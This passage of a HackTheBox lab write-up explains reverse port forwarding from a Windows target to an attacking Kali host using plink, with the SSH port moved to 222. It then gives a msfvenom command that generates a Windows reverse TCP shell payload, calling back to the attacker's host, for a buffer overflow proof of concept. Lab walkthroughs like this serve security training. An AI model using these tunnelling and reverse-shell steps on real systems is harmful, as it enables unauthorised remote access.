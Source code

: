 The exploit is written in python and it doesn't appear that the windows machine is running python, so we can either try:
- converting it to an .exe file
- using port forwarding.

We'll be going with the later, port forwarding. As for the software to use for port forwarding, the options that come to mind are chisel and plink and we will be using plink.

HackTheBox has said on discord on the 09/17/2020:
> From now on all outbound connections on port 22 from the target machines back to the user machines are blocked by our internal firewall rules.
This applies to all labs of HTB.
This decision has been made to prevent players from exposing themselves to security risks due to default credential use on their hosts.
So from now on you have to configure your local Machines for ssh tunnelling etc via other port.

So first we need to configure ssh on our kali machine.

```terminal
vim /etc/ssh/ssh_config
```

Uncomment the #Port 22 and change it to another port, we will be doing port 222.

Start the ssh service and double check that it's running.

```terminal
service ssh start
service ssh status
```

We can now go back to the windows machine at foward port 8888 using plink.

```terminal
plink.exe -ssh -l freddi 10.10.14.156 -P 222 -R 8888:127.0.0.1:8888
```

Now on our kali machine, whenever we target our kali's port 8888, it will redirect to port 8888 on the windows machine.

We can check its working with a quick nmap scan.

```terminal
nmap -sS -sV -p8888 127.0.0.1 
```

It shows the ports open and is tunnelled.

Now that we can access the port, time to get back to the exploit.

Looking at the proof of concept, it looks like we just need to change the payload.

Time to generate a payload with msfvenom.

```terminal
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.156 LPORT=4445 EXITFUNC=thread -b "\x00\x0d\x0a" -f python -v payload
```

The flags/arguments set are:
```
-p for the payload
EXITFUNC=thread incase the bufferoverflow crashes the application
-b "\x00\x0d\x0a" represents characters to avoid that will cause the exploit to break
-v specifies a veriable name, in this case payload otherwise it will be left as the default buf.
```

